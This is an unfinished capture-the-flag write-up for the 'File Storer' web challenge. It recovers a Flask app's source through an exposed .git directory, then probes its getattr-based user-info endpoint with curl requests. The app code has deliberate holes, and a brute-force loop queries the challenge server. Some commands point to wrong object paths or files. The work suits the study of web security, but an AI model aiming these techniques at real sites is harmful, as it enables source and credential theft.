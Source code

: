 # File Storer
web - 160 points

## Challenge 
My friend made a file storage website that he says is super secure. Can you prove him wrong and get the admin password?

## Hint
Can't solve it? Git gud.


## Solution

From the hint, they use Git. 

Understanding the `.git` folder:
- https://git-scm.com/book/id/v2/Git-Internals-Git-Objects
- https://githowto.com/git_internals_git_directory

Let's access the `.git` folder
	
	http://web2.angstromctf.com:8899/files/.git/
	
	[Errno 21] Is a directory: u'.git/'

Woot, we can try to see the commits

	http://web2.angstromctf.com:8899/files/.git/logs/HEAD
	
	0000000000000000000000000000000000000000 1233bdadb67c905af6516a2e1b94ebf32a0a2f61 kmh11 1504055389 -0400	commit (initial): first commit

And the index binary

	http://web2.angstromctf.com:8899/files/.git/index
	
	DIRCY��$Y_dY��w��A����� g���%�U��T�X2����index.pyY��$�oYrI�)��`A������ᄅ� ��,?����8���requirements.txtY�z��Y���B A������C1�s1F��*0vĊ�l�templates/index.htmlY�z �pY� $ �A������)����K	���=��m"�templates/loggedout.htmlTREE;4 1 U(˄�9	�	h�+4�b8�templates2 0 c�)2 ���ߩ��M�ѧN`��~�o�Q5K��w&|

We can parse the index using a tool: https://gist.github.com/sriranggd/1144775

	 :id=>"aa168eed25aa55fff21054a858329cb4e1187ff0",
	 :flags=>{:name_length=>8, :stage=>0},
	 :name=>"index.py"}

We see that there is an `index.py`. However, it is blocked if we visit http://web2.angstromctf.com:8899/files/index.py and shows us 
	
	no! bad user! bad!

The git ID above is `aa168eed25aa55fff21054a858329cb4e1187ff0`...
Hence it is located at
	
	http://web2.angstromctf.com:8899/files/.git/objects/12/aa168eed25aa55fff21054a858329cb4e1187ff0

-----

Alternatively, we can `git init` and copy in the index

	test $ git ls-files --stage
	100644 aa168eed25aa55fff21054a858329cb4e1187ff0 0	index.py
	100644 b8e1848501840d89d32c3f8eadfafe38a78f8203 0	requirements.txt
	100644 4331a907733114461f8ce52a3076c48ac26c00c2 0	templates/index.html
	100644 29fff8b2c54b09cf0318dde83d1bcbdc1d6d22e8 0	templates/loggedout.html

This means that we can find index.py at http://web2.angstromctf.com:8899/files/.git/objects/aa/168eed25aa55fff21054a858329cb4e1187ff0

Download and decompress

	$ wget http://web2.angstromctf.com:8899/files/.git/objects/aa/168eed25aa55fff21054a858329cb4e1187ff0
	$ pigz -d < 168eed25aa55fff21054a858329cb4e1187ff0 

	blob 2663from flask import Flask, request, render_template, abort
	import os, requests

	app = Flask(__name__)

	class user:
	    def __init__(self, username, password):
	        self.username = username
	        self.__password = password
	        self.files = []
	    def getPass(self):
	        return self.__password

	users = {}

	users["admin"] = user("admin", os.environ["FLAG"])

	@app.errorhandler(500)
	def custom500(error):
	    return str(error), 500

	@app.route("/", methods=["GET", "POST"])
	def mainpage():
	    if request.method == "POST":
	        if request.form["action"] == "Login":
	            if request.form["username"] in users:
	                if request.form["password"] == users[request.form["username"]].getPass():
	                    return render_template("index.html", user=users[request.form["username"]])
	                return "wrong password"
	            return "user does not exist"
	        elif request.form["action"] == "Signup":
	            if request.form["username"] not in users:
	                users[request.form["username"]] = user(request.form["username"], request.form["password"])
	                return render_template("index.html", user=users[request.form["username"]])
	            else:
	                return "user already exists"
	        elif request.form["action"] == "Add File":
	            return addfile()
	    return render_template("loggedout.html")

	#beta feature for viewing info about other users - still testing
	@app.route("/user/<username>", methods=['POST'])
	def getInfo(username):
	    val = getattr(users[username], request.form['field'], None)
	    if val != None: return val
	    else: return "error"

	@app.route("/files/<path:file>", methods=["GET"])
	def getFile(file):
	    if "index.py" in file:
	        return "no! bad user! bad!"
	    return open(file, "rb").read()

	def addfile():
	    if users[request.form["username"]].getPass() == request.form["password"]:
	        if request.form['url'][-1] == "/": downloadurl = request.form['url'][:-1]
	        else: downloadurl = request.form['url']
	        if downloadurl.split("/")[-1] in os.listdir("."):
	            return "file already exists"
	        file = requests.get(downloadurl, stream=True)
	        f = open(downloadurl.split("/")[-1], "wb")
	        first = True
	        for chunk in file.iter_content(chunk_size=1024*512):
	            if not first: break
	            f.write(chunk)
	            first = False
	        f.close()
	        users[request.form["username"]].files.append(downloadurl.split("/")[-1])
	        return render_template("index.html", user=users[request.form["username"]])
	    return "bad password"

	if __name__ == "__main__": app.run(host="0.0.0.0")

Seeing the source code, we find this to get our flag

	@app.route("/user/<username>", methods=['POST'])
	def getInfo(username):
	    val = getattr(users[username], request.form['field'], None)
	    if val != None: return val
	    else: return "error"
	$ curl --data 'field=username' --url "http://web2.angstromctf.com:8899/user/admin"
	admin

Unfortunately, it seems the sourcecode is not the one live on the site...

	$ curl --data 'field=__password' --url "http://web2.angstromctf.com:8899/user/admin"
	error

	$ curl --data 'field=password' --url "http://web2.angstromctf.com:8899/user/admin"
	error

	$ curl --data 'field=__init__' --url "http://web2.angstromctf.com:8899/user/admin"
	no you can't do that that could break it sorry this isn't in the code you have 

---

### ???
IDK how to solve from here onwards...


logs/HEAD and the hash of the commit:

	$ wget http://web2.angstromctf.com:8899/files/.git/objects/12/33bdadb67c905af6516a2e1b94ebf32a0a2f61
	$ pigz -d < 168eed25aa55fff21054a858329cb4e1187ff0 

	commit 670tree 5528cb84ba39060910e309688e2b340084623899
	author kmh11 <hoppykev@gmail.com> 1504055389 -0400
	committer kmh11 <hoppykev@gmail.com> 1504055389 -0400
	gpgsig -----BEGIN PGP SIGNATURE-----
	 
	 iQEzBAABCAAdFiEEUl/3JcBbXSJ5n6GdRm6z8F9MFk0FAlmmEF0ACgkQRm6z8F9M
	 Fk1y/Af5AYPkyfTTUVfOo8RYdbxC2+Ub42WaCA3sPcIHlln9/kct/X/CSBHH4Tvf
	 cXkvkh+eX1zJn6+O5uKBmRkfPGU5UznVRjOAEZTaflyEgsjIai13/iAvxDGqoY/p
	 KrgGCBVNI6IjsrFEwvLtP/6YVio8v/jHui8GvyOtJzVUkIRywQjn6tpdEuP8OeXd
	 3D6wUayLhRcWBMGGUzIIR/ctFGEIUV4TAs4W4mdQZU8CGN1YFGNNSrRi+TbALYKE
	 cvHSh9nt7u2a6dZO0SbqJyAQcqnRgu+8cHp3USR3j+SL8M0So7c8MgSw96PMjJdg
	 itxQVF84HElygXa0PqfwLHnX+XkwRQ==
	 =RZjV
	 -----END PGP SIGNATURE-----

	first commit

creator's PGP signature

	# 5528cb84ba39060910e309688e2b340084623899
	wget http://web2.angstromctf.com:8899/files/.git/objects/55/28cb84ba39060910e309688e2b340084623899
	pigz -d < 28cb84ba39060910e309688e2b340084623899 

bruteforce folders in bash script

	for i in {0..255}; do
		hex=$(printf '%02x' $i);
		output=$(curl -s "http://web2.angstromctf.com:8899/files/.git/objects/$hex/168eed25aa55fff21054a858329cb4e1187ff0")
		echo $hex $output;
	done


## Flag

	??
